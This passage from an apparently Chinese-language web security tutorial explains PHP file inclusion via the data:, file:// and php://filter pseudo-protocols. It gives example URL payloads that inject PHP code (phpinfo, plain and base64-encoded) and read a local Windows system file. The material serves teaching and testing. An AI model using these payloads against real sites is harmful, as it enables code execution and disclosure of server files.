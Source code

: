 #### 5.5、data:text/plain

和php伪协议的input类似，也可以执行任意代码，但利用条件和用法不同

**利用条件**

条件：allow_url_fopen参数与allow_url_include都需开启

**用法**

- ?file=data:text/plain,<?php 执行内容 ?>

```
127.0.0.1/index.php?page=data.txt/plain,<?php phpinfo();?>
```

- ?file=data:text/plain;base64,编码后的php代码

```php
127.0.0.1/index.php?page=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
//PD9waHAgcGhwaW5mbygpOz8+是<?php phpinfo();?>base64的结果
```

#### 5.6、file://伪协议

file:// 用于访问本地文件系统，且不受allow_url_fopen与allow_url_include的影响。

**用法**

```url
?file=file://文件绝对路径

//example
127.0.01/index.php?page=file://C:/windows/system.ini
```

#### 5.7、://filter协议

php://filter是php中独有的一种协议，它是一种过滤器，可以作为一个中间流来过滤其他的数据流。通常使用该协议来读取或者写入部分数据，且在读取和写入之前对数据进行一些过滤，例如`base64`编码处理，`rot13`处理等。

这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

官方文档如下

```
resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```

example

```
php://filter/read=过滤器|过滤器/resource=待过滤的数据流
```

其中过滤器可以设置多个，按照链式的方式依次对数据进行过滤处理。例如：

```php
echo file_get_contents("php://filter/read=convert.base64-encode|convert.base64-encode/resource=data://text/plain,<?php phpinfo();?>");

//对<?php phpinfo();?>这个字符串进行了两次base64编码处理
```
